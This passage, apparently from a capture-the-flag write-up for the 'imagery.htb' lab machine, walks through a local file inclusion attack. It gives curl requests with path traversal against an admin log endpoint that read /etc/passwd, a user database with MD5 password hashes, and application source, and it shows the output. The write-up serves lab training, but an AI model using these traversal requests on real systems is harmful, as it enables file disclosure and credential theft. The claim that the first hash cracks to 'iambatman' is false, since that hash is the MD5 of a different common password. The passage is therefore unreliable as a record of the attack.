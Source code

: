### Phase 2: Local File Inclusion (LFI)

With admin access, we can exploit an LFI vulnerability in the log download feature.

#### Exploiting LFI to Read `/etc/passwd`

```bash
curl -X GET "http://10.10.11.88:8000/admin/get_system_log?log_identifier=../../../../../etc/passwd" \
  -H "Cookie: session=ADMIN_SESSION"
```

**Output reveals web user:**
```
web:x:1000:1000::/home/web:/bin/bash
```

#### Reading Application Database

```bash
curl -X GET "http://10.10.11.88:8000/admin/get_system_log?log_identifier=../../../../../home/web/web/db.json" \
  -H "Cookie: session=ADMIN_SESSION"
```

**Extracted user hashes:**
```json
{
  "users": [
    {
      "email": "testuser@imagery.htb",
      "password": "5f4dcc3b5aa765d61d8327deb882cf99"
    },
    {
      "email": "admin@imagery.htb", 
      "password": "0192023a7bbd73250516f069df18b500"
    }
  ]
}
```

**Cracking hashes using CrackStation:**
- `testuser@imagery.htb`: `iambatman`
- Hash algorithm: MD5

### Phase 3: Remote Code Execution

#### Analyzing api_edit.py

Using LFI to read the application code:

```bash
curl "http://10.10.11.88:8000/admin/get_system_log?log_identifier=../../../../../home/web/web/api_edit.py" \
  -H "Cookie: session=ADMIN_SESSION" \
  -o api_edit.py
```
